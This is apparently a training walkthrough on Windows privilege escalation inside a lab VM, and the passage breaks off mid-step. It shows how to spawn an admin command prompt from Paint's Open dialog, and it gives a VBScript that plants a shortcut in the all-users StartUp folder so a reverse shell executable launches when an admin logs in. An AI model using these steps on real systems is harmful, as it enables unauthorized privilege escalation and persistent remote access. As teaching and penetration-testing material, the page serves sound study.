 ## <mark style="color:red;">Insecure GUI Apps (Citrix Method)</mark>

In earlier versions of Windows, it was possible for users to be authorized to run certain GUI applications with administrative privileges. There are typically multiple ways to generate command prompts from within GUI applications, including using built-in Windows functionality. As the parent process runs with administrative privileges, any command prompts generated will also be executed with these privileges. This technique is often referred to as the "Citrix Method" because it uses many of the same methods employed to escape from Citrix environments.

1. Log into the Windows VM using the GUI with the “user” account.
2. Double click on the “AdminPaint” shortcut on the Desktop.
3. Open a command prompt and run:

```
> tasklist /V | findstr mspaint.exe
```

Note that mspaint.exe is running with admin privileges.

4. In Paint, click File, then Open.
5. In the navigation input, replace the contents with:

```
file://c:/windows/system32/cmd.exe
```

6. Press Enter. A command prompt should open running with admin privileges.

## <mark style="color:red;">Startup Apps</mark>

Each user can define apps that start when they log in, by placing shortcuts to them in a specific directory. Windows also has a startup directory for apps that should start for all users: **C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp** If we can create files in this directory, we can use our reverse shell executable and escalate privileges when an admin logs in.

Note that shortcut files (.lnk) must be used. The following VBScript can be used to create a shortcut file:

{% code title="CreateShortcut.vbs" %}
```visual-basic
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\PrivEsc\reverse.exe"
oLink.Save
```
{% endcode %}

1. Use accesschk.exe to check permissions on the StartUp directory:

```
> .\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```

2. Note that the BUILTIN\Users group has write access to this directory.
3. Create a file CreateShortcut.vbs with the VBScript provided in a previous slide. Change file paths if necessary.
4. Run the script using cscript:

